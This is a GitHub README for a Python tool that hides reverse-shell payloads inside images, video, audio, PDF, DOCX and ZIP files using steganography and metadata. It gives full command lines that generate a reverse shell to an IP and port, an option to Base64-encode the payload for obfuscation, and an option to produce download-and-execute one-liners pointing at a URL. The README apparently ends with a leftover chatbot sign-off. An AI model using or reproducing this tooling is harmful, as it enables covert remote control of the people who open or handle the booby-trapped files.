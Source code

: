 # Steganography Hidden Payload Injector

This project allows you to dynamically inject payloads, such as reverse shells, into various media files using steganography techniques or metadata manipulation. It supports multiple media formats and provides an easy-to-use command-line interface for injecting and extracting payloads from files.

## Features
- **Dynamic Compatibility Check**: Ensures the media file is supported for payload injection.
- **Reverse Shell Payload Generation**: Dynamically generate reverse shell payloads by specifying an IP and port.
- **Steganography Injection**: Hide payloads within image files using steganography.
- **Metadata Injection**: Inject payloads into media files (e.g., images, videos, PDFs, DOCX, ZIP) using metadata fields.
- **Payload Extraction**: Extract payloads from supported media types.
- **Base64 Encoding**: Optionally encode payloads in Base64 for transport or obfuscation.
- **One-Liner Command Generation**: Create ready-to-use one-liners to extract and execute the hidden payload from a media file.

## Inspiration

This project is inspired by the ideas found in **rMETASHELL**, which provided the foundation and concept for dynamic payload injection and extraction using steganography and metadata manipulation. Thanks to **rMETASHELL** for the inspiration!

## Requirements

The following dependencies are required to run this project:

- **Python 3.x**
- **steghide** (for steganography-based injection)
- **exiftool** (for manipulating metadata in image files)
- **ffmpeg** and **ffprobe** (for handling media files such as mp4 and mp3)
- **unzip** (for extracting payloads from DOCX and ZIP files)

### Install external dependencies:

```bash
sudo apt-get install steghide exiftool ffmpeg unzip# Steganography-hidden-payload


Usage

Inject a Reverse Shell Payload into a PNG Image using Steganography:

python hide-a-payload.py -p reverse_shell -i 192.168.1.100 -r 4444 -f image.png -s

This command generates a reverse shell payload and hides it inside the image.png file using steganography.

Inject a Payload into Media File Metadata:

python hide-a-payload.py -p "Your custom payload here" -f video.mp4

This command injects a custom payload into the metadata of video.mp4.

Extract a Payload from a Media File:

python hide-a-payload.py -x -f image.png

This command extracts the payload hidden in the image.png file.
Generate a One-Liner for Payload Extraction:

python hide-a-payload.py -p reverse_shell -i 192.168.1.100 -r 4444 -f image.png -u http://example.com

You will be prompted to select the type of one-liner to generate for extracting and executing the payload.

Supported Media Types

The tool currently supports the following media formats for payload injection and extraction:

Images: PNG, JPG, JPEG

Videos: MP4

Audio: MP3

Documents: PDF, DOCX

Archives: ZIP


Command-Line Options

-p or --payload: Specify the payload type (e.g., reverse_shell or custom payload).

-i or --ip: IP address for reverse shell payload.

-r or --port: Port for reverse shell payload.

-f or --file: Specify the media file for payload injection or extraction.

-s or --steganography: Use steganography for payload injection.

-x or --extract: Extract payload from a media file.

-b or --base64: Base64 encode the generated payload.

-c or --check: Check if a media file is compatible for payload injection.


Example Usage:

Inject a Reverse Shell Payload into a PNG Image using Steganography

python hide-a-payload.py -p reverse_shell -i 192.168.1.100 -r 4444 -f image.png -s

Extract a Payload from a PNG Image

python hide-a-payload.py -x -f image.png

Generate a One-Liner for Reverse Shell Payload Extraction

python hide-a-payload.py -p reverse_shell -i 192.168.1.100 -r 4444 -f video.mp4 -u http://example.com

License

This project is licensed under the MIT License.

Acknowledgements

Special thanks to rMETASHELL for the idea and inspiration behind this project. Their work laid the foundation for this dynamic media-based payload injection and extraction tool.

This `README.md` should cover all aspects of your project, including installation, usage, and a special acknowledgment to **rMETASHELL** for the idea. Let me know if you need further tweaks!